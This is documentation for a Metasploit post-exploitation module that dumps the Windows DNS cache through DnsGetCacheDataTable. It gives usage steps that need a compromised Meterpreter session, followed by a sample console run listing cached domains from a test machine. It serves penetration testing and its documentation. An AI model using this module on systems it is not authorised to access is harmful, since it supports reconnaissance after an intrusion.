 ## Vulnerable Application

This module displays the records stored in the DNS cache.  This is done by
loading the `dnsapi` DLL and calling the `DnsGetCacheDataTable` function.

## Verification Steps

1. Start msfconsole
1. Get a session on a Windows target
1. Do: `use post/windows/gather/dnscache_dump`
1. Do: `set session #`
1. Do: `run`
1. You should get the DNS entries in cache

## Options

## Scenarios

### Windows 10

```
msf6 post(windows/gather/dnscache_dump) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 5...
msf6 post(windows/gather/dnscache_dump) > run

[*] DNS Cached Entries
==================

   TYPE  DOMAIN
   ----  ------
   0001  api.mixpanel.com
   0001  developers.facebook.com
   0001  api.phantom.avira-vpn.com
   0001  settings.data.microsoft.com
   0001  activation-v2.sls.microsoft.com
   0001  api.flickr.com
   0001  win1710.ipv6.microsoft.com
   0001  smtp.gmail.com
   0001  client.wns.windows.com
   0001  bling2.midasplayer.com
   0001  www.bing.com
   0001  imap.gmail.com
   0001  www.msftncsi.com
   0001  v10.vortex-win.data.microsoft.com
   0001  evoke-windowsservices-tas.msedge.net
   0001  inference.location.live.net
   0001  settings-win.data.microsoft.com
   0001  ctldl.windowsupdate.com
   0001  tile-service.weather.microsoft.com
   0001  s.ss2.us
   0001  cdn.onenote.net
   0001  logincdn.msauth.net
   0001  telecommand.telemetry.microsoft.com
   0001  validation-v2.sls.microsoft.com
   0001  dns.msftncsi.com
   0001  dns.msftncsi.com
   0001  dispatch.avira-update.com
   0001  dispatch.avira-update.com
   0001  api.my.avira.com
   0001  prod.tl.avira.com
   0001  sls.update.microsoft.com
   0001  content.ivanti.com
   0001  api.facebook.com
   0001  login.live.com
   0001  personal.avira-update.com
   0001  g.live.com
   0001  candycrushsoda.king.com
   0001  ssldev.oes.avira.com
   0001  cdn.content.prod.cms.msn.com
   0001  v20.vortex-win.data.microsoft.com
   0001  geo2.adobe.com
   0001  o.ss2.us
   0001  time.windows.com
   0001  watson.telemetry.microsoft.com
   00ff  cxnsxtnu
   00ff  _ldap._tcp.dc._msdcs.msedgewin10
   00ff  wpad

[*] Post module execution completed
```
